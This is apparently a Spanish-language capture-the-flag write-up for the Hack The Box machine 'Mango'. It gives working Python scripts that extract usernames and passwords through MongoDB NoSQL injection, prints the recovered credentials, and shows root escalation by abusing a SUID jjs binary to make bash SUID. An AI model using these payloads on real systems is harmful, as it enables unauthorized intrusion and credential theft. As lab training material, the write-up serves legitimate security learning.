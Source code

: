```yaml
---
layout: single
title: Mango - Hack The Box
excerpt: "Javascript e inyeccion NoSQL (Mongo)"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-mango/mango1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - Javascript
  - NoSQL 
---
```


# 10.10.10.162 - Mango

![](/assets/images/htb-mango/mango1.png)

----------------------

Puertos abiertos: 22(ssh), 80(http), 443(https)

```console
└─$ openssl s_client -connect 10.10.10.162:443
staging-order.mango.htb, emailAddress = admin@mango.htb
└─$ whatweb http://10.10.10.162
[403 Forbidden] Apache[2.4.29], HTTPServer[Ubuntu Linux]
└─$ whatweb https://10.10.10.162
[200 OK] Apache[2.4.29], Bootstrap, Title[Mango | Search Base]
```
La web solo tiene un enlace funcional a /analytics.php, donde funciona solo al poner la ip (no mango.htb)
Hay una tabla de datos que podemos descargar al darle a "save". Aun así tampoco pude hacer mucho con eso.

![](/assets/images/htb-mango/mango2.PNG)

En el panel de login se manda:
```/POST a http://staging-order.mango.htb/ username=test&password=test&login=login PHPSESSID:"4h9rnhfsteketion8qoom89evt"```
![](/assets/images/htb-mango/mango3.PNG)

Al ser un panel de login podemos hacer cuatro cosas:  
- Inyeccion SQL con payloads del tipo ```' or 1=1-- -``` ```' or sleep(5)-- -``` (...OR por AND y ' por "")  
- Inyeccion Type Jugling (PHP) -> "password=true"  
- Fuzzing de posibles contraseñas  
- NoSQlInyection -> contraseña[$ne]=test "La contraseña no es "test".  

Como estamos ante una web que maneja bases de datos (por lo que vimos en analytics) sera SQL o no SQL. La manera de probar el mirando el content lenght 
(El de la respuesta mala es 4022, es decir redireccion a la misma ruta) Todos los payloads sql fallan pero no NoSQL

```python
#!/usr/bin/python3

import requests
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
data = {"username":"admin","password[$ne]":"test","login":"login"}
req2 = requests.post(url, data=data, headers=headers)
print(len(req2.text))
```

Aun así entrar nos devuelve este mensaje  "Todavía se están plantando (los mangos). Perdon por la inconveniencia, pero acabamos de emepezar la granja"  
Hay inyecciones NoSQL especiales que nos pueden ayudar a obtener información:  

```python
import requests, string

caracteres = string.ascii_lowercase + "_"
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
nombre = ""
for character in caracteres:
    data = {"username[$regex]":"^" + character + ".*","password[$ne]":"test","login":"login"}
    req2 = requests.post(url, data=data, headers=headers)
    if len(req2.text) < 4022:
        print(character)
```
Conseguimos "a" y "m"  

```python3
nombre = "a"
for i in range(20):
    for character in caracteres:
        data = {"username[$regex]":"^" + nombre + character + ".*","password[$ne]":"test","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            nombre += character
            print(nombre)
```
Sale "admin", para el segundo (el que empieza por "m"), pongo ```nombre = "m"```  
No hay mas nombres por la "a", pero si los hubier se pondría ```caracteres = string.ascii_lowercase.strip("d")```  
para sacar la segunda letra (y que no fuera "d").  

```python
caracteres = string.printable
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
contraseña = ""
while True:
    for character in caracteres:
        data = {"username":"admin","password[$regex]":"^" + contraseña + re.escape(character) + ".*","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            contraseña += character
			print(contraseña)
```
Creds -> admin:t9KcS3>!0B#2, mango:h3mXK8RhU~f{]f5H  

Con estas contraseñas podemos acceder por ssh con mango ```ssh mango@10.10.10.162```
- SUIDS: /usr/bin/run-mailcap, /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs  
- PUERTOS: 127.0.0.1:27017   

En [Gtfo-bins](https://gtfobins.github.io/gtfobins) hay entradas para ambos binarios, pero solo jjs tiene SUID.  
El comando es este (ej con "whoami") y se ejecutará en contenxto privilegiado.  
```echo "Java.type('java.lang.Runtime').getRuntime().exec('whoami').waitFor()" | /jss```  
El asunto esque la shell que nos proponen ```/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)```  
se queda atascada, asi que la solución sería el comando de hacer SUID a la bash ```chmod u+s /bin/bash```  
```console
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()" | /jss
admin@mango:/home/mango$ bash -p
bash-4.4# whoami
root
```
Aunque tenemos que leer la flag rapidamente porque no se porque hay ocasiones en que me bajan los privilegios.  

jjs sirve para invocar el motor "Nashorn", pero dicen que tanto el comando como el motor lo eliminarán en futuras versiones de java.
Java tira de motores y entornos virtuales para funcionar, es un lenguaje un tanto extraño.  